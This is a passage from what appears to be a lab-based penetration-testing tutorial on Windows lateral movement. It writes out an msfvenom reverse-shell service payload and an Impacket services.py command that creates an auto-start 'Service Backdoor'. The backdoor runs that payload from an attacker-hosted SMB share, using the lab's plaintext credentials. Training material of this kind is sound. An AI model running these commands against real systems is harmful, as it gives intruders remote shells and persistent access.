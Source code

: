 To move laterally with this tool, we can set up a new service, modify an existing one, and define a custom command to get a reverse shell.

To create a new service, instead of using the option `list` we will use `create` followed by the name of the new service `-name <serviceName>`, a display name `-display "<Service Display Name>"` and finally we specify the command we want to execute with the option `-path "cmd /c <payload>"`.

For our payload, we will use the Metasploit output option `exe-service`, which creates a service binary:

```shell-session
BusySec@htb[/htb]$ msfvenom -p windows/x64/shell_reverse_tcp LHOST=10.10.14.207 LPORT=9001 -f exe-service -o rshell-9001s.exe
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x64 from the payload                                     
No encoder specified, outputting raw payload   
Payload size: 460 bytes                        
Final size of exe-service file: 48640 bytes    
Saved as: rshell-9001s.exe
```

Now, we can execute the command to create a new service:

```shell-session
BusySec@htb[/htb]$ proxychains4 -q services.py INLANEFREIGHT/helen:'RedRiot88'@172.20.0.52 create -name 'Service Backdoor' -display 'Service Backdoor' -path "\\\\10.10.14.207\\share\\rshell-9001.exe"
Impacket v0.11.0 - Copyright 2023 Fortra

[*] Creating service Service Backdoor
```

We can view the configuration of the custom command created using `config -name <serviceName>`:

```shell-session
BusySec@htb[/htb]$ proxychains4 -q services.py INLANEFREIGHT/helen:'RedRiot88'@172.20.0.52 config -name 'Service Backdoor'
Impacket v0.11.0 - Copyright 2023 Fortra

[*] Querying service config for Service Backdoor
TYPE              : 16 -  SERVICE_WIN32_OWN_PROCESS  
START_TYPE        :  2 -  AUTO START
ERROR_CONTROL     :  0 -  IGNORE
BINARY_PATH_NAME  : \\10.10.14.207\share\rshell-9001.exe
LOAD_ORDER_GROUP  : 
TAG               : 0
DISPLAY_NAME      : Service Backdoor
DEPENDENCIES      : /
SERVICE_START_NAME: LocalSystem
```

Before we run the service, we must ensure that the SMB server has the file that will be executed:

```shell-session
BusySec@htb[/htb]$ sudo smbserver.py share -smb2support ./
Impacket v0.11.0 - Copyright 2023 Fortra

[*] Config file parsed
[*] Callback added for UUID 4B324FC8-1670-01D3-1278-5A47BF6EE188 V:3.0
[*] Callback added for UUID 6BFFD098-A112-3610-9833-46C3F87E345A V:1.0
[*] Config file parsed
[*] Config file parsed
[*] Config file parsed
```
